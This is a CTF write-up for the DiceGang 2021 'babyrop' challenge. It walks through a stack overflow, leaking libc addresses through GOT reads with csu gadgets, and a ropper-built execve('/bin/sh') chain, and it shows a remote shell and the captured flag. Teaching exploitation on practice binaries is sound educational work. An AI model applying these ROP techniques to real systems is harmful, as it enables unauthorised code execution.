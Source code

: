 ```yaml
---
layout: post
title: DiceGang CTF 2021 - babyrop [pwn]
author: hugsy
tags: [pwn,dicegang,rop,]
date: 2021-02-07 18:37
---
```


 * Competition: [DiceGang CTF 2021]()
 * Challenge Name: BabyRop
 * Type: Pwn
 * Points: 116 pts
 * Description:
 > "FizzBuzz101: Who wants to write a ret2libc"
 >
 > nc dicec.tf 31924


This was a beginner level challenge which as the name suggests is all about ROP. Some basic fingerprinting on the `babyrop` binary gives us useful information, such as no canary and partial RelRO.

<!--more-->
```bash
$ file babyrop
babyrop: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=a721f8e2550d74dddcaae7e8754bff9095e3488d, for GNU/Linux 3.2.0, not stripped
$ checksec babyrop
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Opening the binary in a disassembler and the vulnerability becomes obvious: it's a basic stack overflow.

![img](https://i.imgur.com/2sB9fCv.png)

And we can quickly determine the distance to control `$rip` (since there's no canary)

```
0:000 ➤  pattern search $rsp
[+] Searching '$rsp'
[+] Found at offset 72 (little-endian search) likely
[+] Found at offset 65 (big-endian search)
```

However, the libc version is unknown and we don't have enough gadgets in the binary itself to trigger a call to `system()` or make a `syscall`. After a bit of search, we spotted 2 interesting gadgets:

- `0x4011b0` would call an arbitrary location if we control r15 and rbx (and the parameter arguments)
![img](https://i.imgur.com/8T0TTPH.png)
- `0x4011ca` would pop all the required registers
![img](https://i.imgur.com/NotESgM.png)

The binary uses `gets` and `write` therefore we have enough to build an arbitrary `read` primitive.

```python
def read(addr, length):
    pop_rbx_rbp_r12_r13_r14_r15 = 0x4011ca
    call_r15_rbx = 0x4011b0

    return flat(
        p64(pop_rbx_rbp_r12_r13_r14_r15),
        p64(0),
        p64(1),
        p64(1),
        p64(addr),
        p64(length),
        p64(0x0404018),
        p64(call_r15_rbx),
        b"JUNKJUNK"*7,
    )
```

If we apply it to the GOT of `write` (GOT 0x404018) and `gets` (GOT 0x404020), we have all we need to leak 2 libc addresses:

```
[*] leaking libc addresses...
[+] write: 0x7ffff7eda1d0
[+] gets: 0x7ffff7e4faf0
```

From just those 2 addresses, we can determine the libc using https://libc.blukat.me, which [pointed to `libc6_2.31-0ubuntu9.1_amd64`](https://libc.blukat.me/?q=write%3A0x7f859309e1d0%2Cgets%3A0x7f8593013af0).


In this case, the size of the ropchain is not a problem, so I downloaded the libc and used [`ropper`](https://github.com/sashs/Ropper) with its `--chain` argument to get easily a working chain to do `execve("/bin/sh")`

```python
    # shellcode from ropper --chain="execve cmd=/bin/sh""
    rebase_0 = lambda x : p64(x  + libc_base)
    rop = b''
    rop += rebase_0(0x000000000002911d) # 0x000000000002911d: pop r13; ret;
    rop += b'//bin/sh'
    rop += rebase_0(0x00000000000331ff) # 0x00000000000331ff: pop rbx; ret;
    rop += rebase_0(0x00000000001eb1a0)
    [...]
    rop += rebase_0(0x000000000004a550) # 0x000000000004a550: pop rax; ret;
    rop += p64(0x000000000000003b)
    rop += rebase_0(0x0000000000066229) # 0x0000000000066229: syscall; ret;
```

That's it, put it all together and we have a [working exploit](https://gist.github.com/hugsy/d8d2a775d8ca4604596aa90ecaccd48e) we can execute remotely, and cat the flag:

```bash
$ ./xp.py
[...]
[+] write: 0x7ffff7eda1d0
[+] gets: 0x7ffff7e4faf0
[+] libc:0x7ffff7dc9000
[+] system:0x7ffff7e1e419
[*] Switching to interactive mode
$ cat flag.txt
dice{so_let's_just_pretend_rop_between_you_and_me_was_never_meant_b1b585695bdd0bcf2d144b4b}
```
